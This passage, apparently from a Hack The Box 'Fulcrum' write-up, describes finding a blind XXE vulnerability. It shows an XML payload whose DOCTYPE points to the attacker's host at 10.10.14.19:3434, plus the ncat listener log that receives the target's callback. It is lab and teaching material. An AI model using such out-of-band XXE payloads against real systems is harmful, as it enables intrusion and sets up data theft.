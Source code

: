 After attempting a variety of blind injection attacks, you end up discovering it's blind XXE vulnerability.  The following [blog post](https://blog.zsec.uk/blind-xxe-learning/) is a good read on exploiting XXE vulerbilities. 

!["Testing for XXE Vulerbility w/ Burp Suite"](/assets/fulcrum/6.png "Testing for XXE Vulerbility w/ Burp suite")

_xxe test payload_
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://10.10.14.19:3434/" [
<!ELEMENT data (#PCDATA)>
]>
<data>4</data>
```

_response_
```
root@dastinia:~/htb/fulcrum# ncat -lnkvp 3434
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3434
Ncat: Listening on 0.0.0.0:3434
Ncat: Connection from 10.10.10.62.
Ncat: Connection from 10.10.10.62:53288.
GET /test-t HTTP/1.0
Host: 10.10.14.19:3434
Connection: close
```
